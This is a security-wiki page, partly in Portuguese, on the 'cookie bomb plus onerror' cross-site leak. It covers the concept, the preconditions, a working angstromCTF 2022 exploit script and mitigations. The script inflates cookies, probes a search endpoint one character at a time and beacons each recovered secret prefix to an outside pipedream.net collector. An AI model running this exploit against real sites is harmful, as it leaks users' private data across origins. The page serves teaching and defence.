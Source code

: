 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

This technique combines:
- Cookie bombing: preencher o navegador da vítima com muitos/grandes cookies para a origem alvo de modo que requisições subsequentes atinjam limites do servidor/requisição (tamanho do header da requisição, tamanho da URL em redirects, etc.).
- Error-event oracle: sondar um endpoint cross-origin com um <script> (ou outro subresource) e distinguir estados com onload vs onerror.

High level idea
- Encontre um endpoint alvo cujo comportamento difira entre dois estados que você quer testar (por exemplo, busca “hit” vs “miss”).
- Assegure que o caminho “hit” irá disparar uma cadeia de redirects pesada ou uma URL longa enquanto o caminho “miss” permanece curto. Infle os cabeçalhos da requisição usando muitos cookies de forma que apenas o caminho “hit” faça o servidor falhar com um erro HTTP (ex.: 431/414/400). O erro aciona o onerror e se torna um oráculo para XS-Search.

When does this work
- Você consegue fazer o navegador da vítima enviar cookies ao alvo (ex.: cookies com SameSite=None ou você pode defini-los em um contexto first-party via um popup window.open).
- Existe uma funcionalidade no app que você pode abusar para definir cookies arbitrários (ex.: endpoints “save preference” que transformam nomes/valores controlados em Set-Cookie) ou para criar redirects pós-auth que incorporam dados controlados pelo atacante na URL.
- O servidor reage de forma diferente nos dois estados e, com cabeçalhos/URL inflados, um dos estados ultrapassa um limite e retorna uma resposta de erro que dispara onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large é comumente retornado quando cookies inflacionam os cabeçalhos da requisição; 414 URI Too Long ou um 400 específico do servidor podem ser retornados para alvos de requisição longos. Qualquer um desses resulta em um carregamento de subresource falho e dispara onerror. [MDN documenta 431 e causas típicas como cookies excessivos.]()

Practical example (angstromCTF 2022)
O script a seguir (de um writeup público) abusa de uma funcionalidade que permite ao atacante inserir cookies arbitrários, depois carrega um endpoint de busca cross-origin como um script. Quando a query está correta, o servidor realiza um redirect que, junto com o inchaço de cookies, excede os limites do servidor e retorna um status de erro, então script.onerror é disparado; caso contrário nada acontece.
```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
<input id="f" /><input name="search" value="a" />
</form>
<script>
const $ = document.querySelector.bind(document)
const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
let i = 0
const stuff = async (len = 3500) => {
let name = Math.random()
$("form").target = name
let w = window.open("", name)
$("#f").value = "_".repeat(len)
$("#f").name = i++
$("form").submit()
await sleep(100)
}
const isError = async (url) => {
return new Promise((r) => {
let script = document.createElement("script")
script.src = url
script.onload = () => r(false)
script.onerror = () => r(true)
document.head.appendChild(script)
})
}
const search = (query) => {
return isError(
"https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
)
}
const alphabet =
"etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
const url = "//en4u1nbmyeahu.x.pipedream.net/"
let known = "actf{"
window.onload = async () => {
navigator.sendBeacon(url + "?load")
await Promise.all([stuff(), stuff(), stuff(), stuff()])
await stuff(1600)
navigator.sendBeacon(url + "?go")
while (true) {
for (let c of alphabet) {
let query = known + c
if (await search(query)) {
navigator.sendBeacon(url, query)
known += c
break
}
}
}
}
</script>
```
Por que o popup (window.open)?
- Navegadores modernos bloqueiam cada vez mais third-party cookies. Abrir um top-level window para o target faz com que os cookies sejam first-party, então respostas Set-Cookie do target vão persistir, permitindo a etapa cookie-bomb mesmo com restrições a third-party cookies.

Generic probing helper
Se você já tem uma maneira de definir muitos cookies no target origin (first-party), pode reutilizar este minimal oracle contra qualquer endpoint cujo success/failure leve a diferentes network outcomes (status/MIME/redirect):
```js
function probeError(url) {
return new Promise((resolve) => {
const s = document.createElement('script');
s.src = url;
s.onload = () => resolve(false);  // loaded successfully
s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
document.head.appendChild(s);
});
}
```
Dicas para construir o oracle
- Force o estado “positivo” a ser mais pesado: encadeie um redirect extra somente quando o predicado for verdadeiro, ou faça com que a URL de redirect reflita entrada de usuário sem limites para que ela cresça com o prefixo adivinhado.
- Inflar cabeçalhos: repita cookie bombing até que um erro consistente seja observado no caminho “pesado”. Servidores comumente limitam o tamanho dos headers e vão falhar mais cedo quando muitos cookies estão presentes.
- Estabilizar: dispare múltiplas operações paralelas de set de cookies e sonde repetidamente para fazer a média do ruído de timing e cache.

Related XS-Search tricks
- URL length based oracles (no cookies needed) can be combined or used instead when you can force a very long request target:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Defesas e endurecimento
- Faça respostas de sucesso/falha indistinguíveis:
  - Evite redirects condicionais ou grandes diferenças no tamanho da resposta entre estados. Retorne o mesmo status, mesmo content type e comprimento de corpo similar independentemente do estado.
- Bloqueie probes de subresource cross-site:
  - SameSite cookies: set sensitive cookies to SameSite=Lax or Strict so subresource requests like <script src> don’t carry them; prefer Strict for auth tokens when possible.
  - Fetch Metadata: enforce a Resource Isolation Policy to reject cross-site subresource loads (e.g., if Sec-Fetch-Site != same-origin/same-site).
  - Cross-Origin-Resource-Policy (CORP): set CORP: same-origin (or at least same-site) for endpoints not meant to be embedded as cross-origin subresources.
  - X-Content-Type-Options: nosniff and correct Content-Type on JSON/HTML endpoints to avoid load-as-script quirks.
- Reduza amplificação de header/URL:
  - Limite o número/tamanho de cookies definidos; sanitize funcionalidades que transformam campos arbitrários de formulário em Set-Cookie.
  - Normalize ou trunque dados refletidos em redirects; evite embutir strings longas controladas pelo atacante em Location URLs.
  - Mantenha limites do servidor consistentes e falhe de forma uniforme (evite páginas de erro especiais apenas para um ramo).

Notas
- Esta classe de ataques é discutida amplamente como “Error Events” XS-Leaks. O passo de cookie-bomb é apenas uma forma conveniente de empurrar apenas um ramo além dos limites do servidor, produzindo um boolean oracle confiável.



## Referências
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
{{#include ../../banners/hacktricks-training.md}}
